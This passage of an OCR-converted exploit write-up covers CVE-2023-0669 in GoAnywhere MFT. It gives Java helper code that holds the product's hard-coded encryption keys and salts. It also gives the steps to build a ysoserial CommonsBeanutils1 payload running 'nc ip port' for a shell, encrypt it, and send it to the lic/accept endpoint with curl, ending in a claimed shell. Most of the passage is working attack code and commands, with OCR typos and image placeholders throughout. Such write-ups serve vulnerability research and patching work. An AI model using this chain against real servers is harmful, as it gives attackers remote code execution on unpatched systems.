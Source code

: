 `        `byte[] param2 = {-19, 45, -32, -73, 65, 123, -7, 85};

`        `return SecretKeyFactory.getInstance("PBKDF2WithHmacSHA1").generateSecret(new PBEKeySpec(new String(param1.getBytes(), "UTF- 8").toCharArray(), param2, 9535, 256)).getEncoded();

`    `}

`    `private static byte[] getInitializationValueV2() throws Exception {

`        `// Version 2 Encryption

`        `String param1 = "pFRgrOMhauusY2ZDShTsqq2oZXKtoW7R";

`        `byte[] param2 = {99, 76, 71, 87, 49, 74, 119, 83, 109, 112, 50, 75, 104, 107, 56, 73};![](Aspose.Words.e702ede5-81b5-45cd-8f8a-c0bd81f39ade.026.png)

`        `return SecretKeyFactory.getInstance("PBKDF2WithHmacSHA1").generateSecret(new PBEKeySpec(new String(param1.getBytes(), "UTF- 8").toCharArray(), param2, 3392, 256)).getEncoded();

`    `}

}

first, we need to compile the code by this command

javac CVE\_2023\_0669\_helper.java && java CVE\_2023\_0669\_helper

about the code simply take the hard-coded keys that were provided in the application source code and encrypt the data using AES with CBC mode and  PKCS5 padding. by giving it the file path and version number  java CVE\_2023\_0669\_helper [file\_path] [version]![](Aspose.Words.e702ede5-81b5-45cd-8f8a-c0bd81f39ade.027.png)

as arguments. and print the payload string as Base64 encode we will cover it in the PoC section

**The Proof Of Concept && Exploitation![](Aspose.Words.e702ede5-81b5-45cd-8f8a-c0bd81f39ade.028.png)**

i will use linux in this Proof of Consept but it not depends on the operation system to get RCE (Remote Code Eexecution)

using  ysoserial to create our payload like the following command and enctypt it

Command :java -jar ysoserial-all.jar CommonsBeanutils1 "nc ip port " > PoC.ser and to dcyrypt the ysoserial payload by our custom script

Command java -jar CVE2023-helper.jar File\_name <the version number(1,2)>

![](Aspose.Words.e702ede5-81b5-45cd-8f8a-c0bd81f39ade.029.jpeg)

and as we show above  lic/accept is the endpoint that receives the bundle request and it doesn't matter if the request method was  GET or  POST , we can also exploit this by command line with  curl by the following

Command:  curl -ivs POST 'http://192.168.1.10:8000/goanywhere/lic/accept?bundle='$(cat final\_payload.txt) which  final\_payload will be the  ysoserial output after encryption by our tool

![](Aspose.Words.e702ede5-81b5-45cd-8f8a-c0bd81f39ade.030.jpeg)

and we get shell the exploit work in windows,Linux and any system have goanyhere because the application depends on java installation not The Operation System

